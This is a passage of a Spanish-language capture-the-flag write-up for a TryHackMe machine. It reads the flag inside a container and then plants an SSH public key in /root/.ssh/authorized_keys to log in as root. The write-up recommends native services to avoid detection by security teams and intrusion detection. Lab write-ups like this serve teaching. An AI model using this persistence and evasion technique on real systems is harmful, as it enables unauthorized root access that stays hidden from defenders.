 ```
drwx------   1 0 0 4096 Aug  2  2022 root
drwxr-xr-x   3 0 0 4096 Aug  1  2022 run
drwxr-xr-x   1 0 0 4096 Aug  2  2022 sbin
drwxr-xr-x   2 0 0 4096 Aug  1  2022 srv
dr-xr-xr-x  13 0 0    0 Jul 13 13:07 sys
drwxrwxrwt   1 0 0 4096 Aug  2  2022 tmp
drwxr-xr-x   1 0 0 4096 Aug  1  2022 usr
drwxr-xr-x   1 0 0 4096 Aug  1  2022 var
# cd m3n0s
cd m3n0s
# ls
ls
bin   dev  flag.txt  lib    lib64   lost+found  mnt  proc  run   snap  sys  usr
boot  etc  home      lib32  libx32  media       opt  root  sbin  srv   tmp  var
# cat flag.txt
cat flag.txt
THM{**********************************}
```
¡Pero aquí hemos venido a jugar! ¡Vamos a por el root! (*¿O era a por el Bote?*)

Podríamos conseguirlo de diferentes formas, pero mi recomendación sería utilizar servicios nativos por dos sencillas razones:
1. Conexión SSH o cualquier otro servicio de acceso remoto desplegado en la máquina, evitaremos hacer "*ruido*" innecesario, minimizando el riesgo a ser detectados por equipos de seguridad y/o sistemas de detección de intrusos. *(Es importante tomar buenas costumbres en laboratorios controlados, para no viciarnos en entornos reales)*
2. Tendremos una sesión más estable.

Compartimos nuestra clave pública en el fichero *authorized_keys* del directorio */root/.ssh/*:
```
# echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBV2m/q3jym/x/CGxBZFJO+htVx4R25nzjXWTQER9FWJ' >> authorized_keys
```
Posteriormente, conectamos por **SSH** como root, indicando con *-i* la ruta a nuestra clave privada (*siempre y cuando no se encuentre en el directorio raíz de nuestro usuario*):
```
> ssh root@10.10.155.195 -i clave_privada
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-1029-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jul 13 13:13:23 UTC 2024

  System load:                      0.1
  Usage of /:                       10.4% of 38.71GB
  Memory usage:                     18%
  Swap usage:                       0%
  Processes:                        188
  Users logged in:                  0
  IPv4 address for br-65b390c52543: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.155.195

  => There are 44 zombie processes.


132 updates can be installed immediately.
11 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
```